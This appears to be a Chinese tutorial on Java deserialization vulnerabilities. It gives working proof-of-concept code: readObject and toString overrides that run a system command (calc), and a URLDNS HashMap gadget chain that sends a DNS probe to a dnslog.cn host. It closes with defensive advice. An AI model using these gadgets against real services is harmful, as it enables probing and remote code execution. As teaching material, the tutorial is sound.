









## 目录
- [知识点](#知识点)
- [演示案例](#演示案例)
- [Java序列化&反序列化-概念](#java序列化反序列化-概念)
- [Java-原生使用-序列化&反序列化](#java-原生使用-序列化反序列化)
- [Java-安全问题-重写方法&触发方法](#java-安全问题-重写方法触发方法)
- [Java-安全问题-可控其他类重写方法](#java-安全问题-可控其他类重写方法)


## 知识点：
1. **JavaEE-反序列化-解释&使用&安全**：核心围绕JavaEE环境中反序列化的基本原理、实际应用场景及潜在安全风险，是理解后续安全问题的基础。
2. **JavaEE-安全-利用链&直接重写方法**：聚焦通过直接重写关键方法（如`readObject`）构建反序列化利用链的机制，是反序列化漏洞利用的常见方式。
3. **JavaEE-安全-利用链&外部重写方法**：探讨借助外部类（非自定义类，如JDK自带类）的重写方法形成利用链的思路，如HashMap等类的漏洞利用。


## 演示案例：
- Java-原生使用-序列化&反序列化：展示Java中序列化与反序列化的基础操作流程。
- Java-安全问题-重写方法&触发方法：演示重写`toString`和`readObject`方法可能引发的安全问题及触发方式。
- Java-安全问题-可控其他类重写方法：以HashMap和URL为例，分析利用第三方类的方法调用链导致的安全风险。






## Java序列化&反序列化-概念


1. **序列化与反序列化**  
   - 序列化：将内存中的对象转换为字节流（包含对象数据、类型、属性等信息），便于存储或传输。  
   - 反序列化：将字节流还原为内存中的对象，恢复对象的状态。  
   核心作用：实现对象的跨进程/跨网络传输及持久化存储。

2. **为什么有序列化技术**  
   序列化是数据传输和持久化的基础，主要应用场景包括：  
   - 将对象持久化到文件或数据库中。  
   - 跨网络（如套接字通信）传输对象。  
   - 远程方法调用（RMI）中传输对象。  

   

3. **常见序列化/反序列化协议**  
   - JAVA内置：`writeObject()`/`readObject()`（原生序列化）、`XMLDecoder()`/`XMLEncoder`  
   - 第三方库：XStream、SnakeYaml、FastJson、Jackson  
   不同协议的实现逻辑不同，安全风险点也存在差异（如FastJson的autoType漏洞）。

4. **反序列化安全问题根源**  
   核心在于反序列化过程中会自动执行对象的某些方法（如`readObject`），若这些方法被恶意重写或调用链中包含危险操作（如执行命令、访问敏感资源），攻击者可通过构造恶意序列化数据触发漏洞。常见风险点：  
   - 重写`readObject`方法植入恶意逻辑。  
   - 反序列化后输出对象时触发`toString`方法中的危险操作。

5. **反序列化利用链**  
   利用链（Gadget Chain）是指一系列方法调用的链条，最终触发危险操作。常见类型：  
   (1) 入口类的`readObject`直接调用危险方法（如`Runtime.exec`）。  
   (2) 入口类参数包含可控类，该类有危险方法且被`readObject`调用。  
   (3) 多级调用：入口类调用A类方法，A类再调用B类危险方法，形成链条。  
   (4) 类加载时隐式执行：构造函数、静态代码块等在类加载阶段执行，若被反序列化触发则存在风险。


## Java-原生使用-序列化&反序列化



### 关键步骤：
```java
// 序列化对象并写入文件ser.txt
public static void serializeTest(Object obj) throws IOException {
    // 创建对象输出流，关联文件输出流
    ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.txt"));
    // 将对象写入流（序列化）
    oos.writeObject(obj);
    oos.close(); // 关闭流
}

// 读入文件并反序列化
public static Object unserializeTest(String Filename) throws IOException, ClassNotFoundException {
    // 创建对象输入流，关联文件输入流
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
    // 从流中读取对象（反序列化）
    Object o = ois.readObject();
    ois.close(); // 关闭流
    return o;
}
```

### 完整实现步骤：
1. **创建可序列化类**（实现`Serializable`接口）  
```java
package com.example.serialtestdemo;

import java.io.Serializable;

// 用户信息类，实现Serializable接口以支持序列化
public class UserDemo implements Serializable {

    // 公共成员变量（会被序列化）
    public String name = "xiaodi";
    public String gender = "man";
    public Integer age = 30;

    // 构造方法（序列化时不会执行，反序列化也不会自动调用）
    public UserDemo(String name, String gender, Integer age) {
        this.name = name;
        this.gender = gender;
        this.age = age;
        System.out.println(name);
        System.out.println(gender);
    }

    // toString方法，用于打印对象信息（反序列化后输出对象时调用）
    public String toString() {
        return "User{" +
                "name='" + name + '\'' +
                ", gender='" + gender + '\'' +
                ", age=" + age +
                '}';
    }
}
```

2. **序列化实现类**  
```java
package com.example.serialtestdemo;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

// 序列化演示类
public class SerializableDemo {

    public static void main(String[] args) throws IOException {
        // 创建用户对象
        UserDemo u = new UserDemo("xdsec", "gay1", 30);
        // 调用序列化方法，将对象写入ser.txt
        SerializableTest(u);
        // ser.txt中存储的是对象u的字节流数据
    }

    // 序列化方法：将对象转换为字节流并写入文件
    public static void SerializableTest(Object obj) throws IOException {
        // 关联文件输出流，指定输出文件为ser.txt
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.txt"));
        // 执行序列化写入
        oos.writeObject(obj);
        oos.close(); // 关闭流释放资源
    }
}
```

3. **反序列化实现类**  
```java
package com.example.serialtestdemo;

import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

// 反序列化演示类
public class UnserializableDemo {

    public static void main(String[] args) throws IOException, ClassNotFoundException {
        // 反序列化ser.txt，得到对象
        Object obj = UnserializableTest("ser.txt");
        // 输出对象（默认调用toString方法）
        System.out.println(obj);
    }

    // 反序列化方法：从文件读取字节流并还原为对象
    public static Object UnserializableTest(String Filename) throws IOException, ClassNotFoundException {
        // 关联文件输入流，读取指定文件
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        // 执行反序列化
        Object o = ois.readObject();
        ois.close(); // 关闭流释放资源
        return o;
    }
}
```

### 演示效果：
- 序列化：执行`SerializableDemo`，生成`ser.txt`文件，存储`UserDemo`对象的字节流。  
  
  
- 反序列化：执行`UnserializableDemo`，从`ser.txt`还原对象并输出。  
  


## Java-安全问题-重写方法&触发方法

### 1. 重写`toString`方法导致的风险
- **触发场景**：反序列化后若对对象进行输出（如`System.out.println(obj)`），会默认调用对象的`toString`方法。  
- **安全风险**：若`toString`中包含恶意操作（如执行系统命令），则会被触发。

```java
public String toString() {
    try {
        // 危险操作：执行系统命令（打开计算器）
        Runtime.getRuntime().exec("calc");
    } catch (IOException e) {
        // 异常抛出可能泄漏敏感信息
        throw new RuntimeException(e);
    }
    return "User{" +
            "name='" + name + '\'' +
            ", gender='" + gender + '\'' +
            ", age=" + age +
            '}';
}
```

```java
public static void main(String[] args) throws IOException, ClassNotFoundException {
    // 反序列化得到对象
    Object obj = UnserializableTest("ser.txt");
    // 输出对象时触发toString方法，执行恶意命令
    System.out.println(obj);
}

public static Object UnserializableTest(String Filename) throws IOException, ClassNotFoundException {
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
    Object o = ois.readObject();
    return o;
}
```

触发效果：反序列化后输出对象时，自动打开计算器。  



### 2. 重写`readObject`方法导致的风险
- **触发场景**：反序列化时，`ObjectInputStream`会优先调用对象自身重写的`readObject`方法（若存在）。  
- **安全风险**：若`readObject`中包含恶意逻辑，反序列化过程中会直接执行。



```java
// 重写readObject方法，自定义反序列化逻辑
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    // 先执行默认的反序列化（必须调用，否则对象属性无法正确还原）
    ois.defaultReadObject();
    // 危险操作：反序列化时直接执行系统命令（打开计算器）
    Runtime.getRuntime().exec("calc");
}
```

触发效果：执行反序列化时，无需额外操作，直接打开计算器。  



## Java-安全问题-可控其他类重写方法

### 案例：利用HashMap反序列化触发URL DNS请求
参考：https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java  

#### 原理分析：
HashMap的`readObject`方法在反序列化时会调用`putVal`，进而调用`hash`方法，最终触发`URL.hashCode()`。而`URL.hashCode()`会解析URL并发起网络请求（如DNS查询），若URL可控，可用于探测反序列化漏洞（无回显场景下的DNSlog验证）。

#### 利用链（Gadget Chain）：
```
HashMap.readObject() → HashMap.putVal() → HashMap.hash() → URL.hashCode()
```

#### 代码实现：
```java
package com.example.serialtestdemo;

import java.io.*;
import java.net.URL;
import java.util.HashMap;

public class UrLDns implements Serializable {
    public static void main(String[] args) throws IOException, ClassNotFoundException {

        // 创建HashMap对象（JDK自带类，存在反序列化调用链）
        HashMap<URL, Integer> hash = new HashMap<>();
        // 构造恶意URL（指向DNSlog域名，用于检测请求）
        URL u = new URL("http://vnq09p.dnslog.cn");
        // 将URL放入HashMap（序列化时存储该键值对）
        hash.put(u, 1);

        // 序列化HashMap对象到dns.txt
        SerializableTest(hash);

        // 反序列化dns.txt，触发利用链
        UnserializableTest("dns.txt");
    }

    // 序列化方法：将对象写入文件
    public static void SerializableTest(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("dns.txt"));
        oos.writeObject(obj);
        oos.close();
    }

    // 反序列化方法：从文件读取对象，触发链调用
    public static Object UnserializableTest(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object o = ois.readObject(); // 反序列化时自动执行HashMap.readObject()
        ois.close();
        return o;
    }
}
```

触发效果：反序列化时，URL的`hashCode()`被调用，发起DNS请求，可在DNSlog平台观察到记录。  



### RCE漏洞简介
RCE（Remote Code Execution，远程代码执行）漏洞允许攻击者远程执行恶意代码，获取目标系统控制权，危害包括：  
- 完全控制系统：访问敏感数据、修改配置、操纵系统行为。  
- 破坏系统：删除文件、关闭服务、引发崩溃。  
- 数据泄露：窃取个人信息、登录凭证、商业数据等。  


### 分析总结
- **反序列化漏洞核心**：攻击者通过构造恶意序列化数据，利用目标系统中存在的危险方法调用链（如重写的`readObject`、第三方类的方法链），触发远程代码执行或敏感操作。  
- **防御建议**：避免反序列化不可信数据；使用白名单限制可反序列化的类；重写`readObject`时严格校验输入；升级依赖库以修复已知漏洞（如FastJson、Jackson的安全更新）。

在Java中，`HashMap`是一个常用的哈希表实现，用于存储键值对（Key-Value）映射，基于`Map`接口实现。它的特点是查询、插入、删除操作的平均时间复杂度为O(1)，但在反序列化场景中，其内部实现可能引入安全风险。

### HashMap补充


### 1. `HashMap`的基本特性
- **存储结构**：基于数组（哈希桶）和链表/红黑树实现。当链表长度超过阈值（默认8）时，会转为红黑树以优化查询效率。
- **哈希计算**：通过键（Key）的`hashCode()`方法计算哈希值，再通过扰动函数（减少哈希冲突）确定数组索引。
- **序列化支持**：`HashMap`实现了`Serializable`接口，支持序列化和反序列化。


### 2. `HashMap`的反序列化安全问题
`HashMap`的反序列化风险源于其重写的`readObject`方法。在反序列化时，`readObject`会被自动调用，进而触发一系列内部逻辑，可能被攻击者利用构造恶意调用链（Gadget Chain）。

#### 关键调用链分析：
以`URLDNS`漏洞为例（参考文件中案例），其利用链如下：
```
HashMap.readObject() → HashMap.putVal() → HashMap.hash() → URL.hashCode()
```
- **`readObject`方法**：`HashMap`重写了`readObject`，反序列化时会将保存的键值对重新插入哈希表（调用`putVal`）。
- **`putVal`方法**：插入键值对时，会调用`hash(key)`计算键的哈希值。
- **`hash`方法**：会调用键的`hashCode()`方法。
- **`URL.hashCode()`**：`URL`类的`hashCode()`方法在计算哈希值时，会尝试解析URL并建立网络连接（如DNS查询）。

#### 漏洞利用：
攻击者可构造一个包含恶意`URL`的`HashMap`对象并序列化，当目标反序列化该对象时，会自动触发`URL.hashCode()`，导致远程DNS查询（可用于探测漏洞），若存在更危险的方法调用，则可能实现远程命令执行（RCE）。


### 3. 代码示例（文件中案例）
```java
import java.io.*;
import java.net.URL;
import java.util.HashMap;

public class UrLDns implements Serializable {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        // 创建HashMap并放入恶意URL
        HashMap<URL, Integer> hash = new HashMap<>();
        URL u = new URL("http://vnq09p.dnslog.cn"); // 触发DNS查询的URL
        hash.put(u, 1);

        // 序列化HashMap到文件
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("dns.txt"));
        oos.writeObject(hash);
        oos.close();

        // 反序列化时触发漏洞
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("dns.txt"));
        ois.readObject(); // 反序列化过程中自动调用HashMap.readObject()
        ois.close();
    }
}
```
- 序列化时，`HashMap`的键值对（含`URL`）被写入文件。
- 反序列化时，`HashMap.readObject()`执行，触发`URL.hashCode()`，导致对`http://vnq09p.dnslog.cn`的DNS查询，可通过DNS日志验证漏洞触发。


### 4. 总结
`HashMap`本身并非漏洞，但因其反序列化时的`readObject`方法会触发键的`hashCode()`，若键的类型（如`URL`）在`hashCode()`中包含危险操作（网络请求、命令执行等），则可能被利用为反序列化漏洞的一环。这也是Java反序列化漏洞中常见的利用链起点之一（如`URLDNS`是经典的反序列化探测payload）。
